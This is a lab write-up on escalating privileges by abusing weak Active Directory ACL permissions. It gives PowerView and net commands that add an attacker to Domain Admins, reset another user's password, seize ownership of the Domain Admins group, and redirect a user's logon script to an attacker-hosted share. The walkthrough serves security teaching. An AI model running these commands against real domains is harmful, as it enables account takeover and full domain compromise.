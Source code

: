 # Abusing Active Directory ACLs/ACEs

## Context

This lab is to abuse weak permissions of Active Directory Discretionary Access Control Lists \(DACLs\) and Acccess Control Entries \(ACEs\) that make up DACLs.

Active Directory objects such as users and groups are securable objects and DACL/ACEs define who can read/modify those objects \(i.e change account name, reset password, etc\). 

An example of ACEs for the "Domain Admins" securable object can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-11-08-20-21-25.png)

Some of the Active Directory object permissions and types that we as attackers are interested in:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self \(Self-Membership\)** - ability to add yourself to a group

In this lab, we are going to explore and try to exploit most of the above ACEs.

## Execution

### GenericAll on User

Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate`:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account:

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

We can reset user's `delegate` password without knowing the current password:

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-21-30.png)

### GenericAll on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

Effectively, this allows us to add ourselves \(the user `spotless`\) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

### Self \(Self-Membership\) on Group

Another privilege that enables the attacker adding themselves to a group:

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-23-52.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-25-23.png)

### WriteProperty \(Self-Membership\)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-21-35.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-22-50.png)

### **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-30-11.png)

Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-31-52.png)

Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-14-11-25.png)

...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-58-25.png)

### WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-45-36.png)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-45-42.png)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-54-59.png)

### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-19-12-04.png)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](../../.gitbook/assets/screenshot-from-2018-11-08-19-13-45.png)

## References

{% embed url="https://wald0.com/?p=112" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2" %}

